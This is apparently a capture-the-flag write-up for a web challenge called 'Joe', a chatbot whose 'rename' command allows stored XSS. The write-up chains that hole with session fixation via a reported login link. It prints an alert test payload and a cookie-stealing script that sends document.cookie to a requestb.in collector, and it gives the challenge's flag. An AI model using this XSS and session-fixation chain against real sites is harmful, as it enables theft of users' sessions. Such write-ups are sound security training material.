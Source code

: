 # Joe ~ 90
Problem:
```
Meet our brand new personal assistant, Joe. He is the perfect talking partner if you want to have some small talk with a machine. We have put extra emphasis on security when developing Joe, but we'd like to invite you to participate in our H4x0r R3w4rd Pr06r4m (HRP) to help us make Joe even more secure. If you can find a vulnerability that makes it possible to steal the cookies of the administrator, we will reward you with a valuable flag.

Challenge running at https://joe.web.ctfcompetition.com/
```
![default](kapi-files/1.PNG)

After few look around we found that if we click on hyperlink then commands will prompt in our input.

* what is your name
* let me rename you
* do you know any puns
* what is the answer to the ultimate question
* report bug

**let me rename you** this command will let us change Joe's name to what ever we want and it's possible to inject XSS into that name which we will change to. We use [https://requestb.in](https://requestb.in) to setup temporary server to catch requests which could be generated from anywhere.

Accessing /admin show us some useful information. The admin's cookie may contain flag.
![info](kapi-files/2.PNG)


We change Joe's name into the following XSS and reload the page.
```javascript
<script>alert(1);</script>
``` 
![XSS](kapi-files/4.PNG)
As we expected the site is vulnerable to XSS. Now it could be roughly plan an attack to steal admin cookie by sending XSS-link to admin but how it could be. 

After reviewing login function we found that the login function has weakness called **session fixation** which is the session will be same value whenever we login or not. So if we pass this link to admin and let him participate to the link we might be able to catch admin's cookie.

The following is example of my login.
```
https://joe.web.ctfcompetition.com/login?id_token=eyJhbGciOiJSUzI1--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------truncated-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------SHJaSYwNNA
```

Now we prepare the exploitation by:
* Change Joe's name to JavaScript which will send cookies to our requestb.
* Report bug by sending our login URL with our token
* Admin should login to our session and his cookies should be sent to our reqestb.

## Setup XSS
By changing Joe's name to
```javascript
<script>document.write('<img src="https://requestb.in/our_resquestb_url?' + document.cookie);</script>
```
## Report bug
by sending 
```
https://joe.web.ctfcompetition.com/login?id_token=eyJhbGciOiJSUzI1--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------truncated-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------SHJaSYwNNA
```

We found a problem when we try to report the bug with very long URL.
![errorreportlongurl](kapi-files/8.PNG)

So we shortend it using goo.gl

Submit the bug again.
![submitbug](kapi-files/10.PNG)

## Reap our flag
![flag](kapi-files/9.PNG)

The flag was:
* CTF{h1-j03-c4n-1-h4v3-4-c00k13-plz!?!}; 

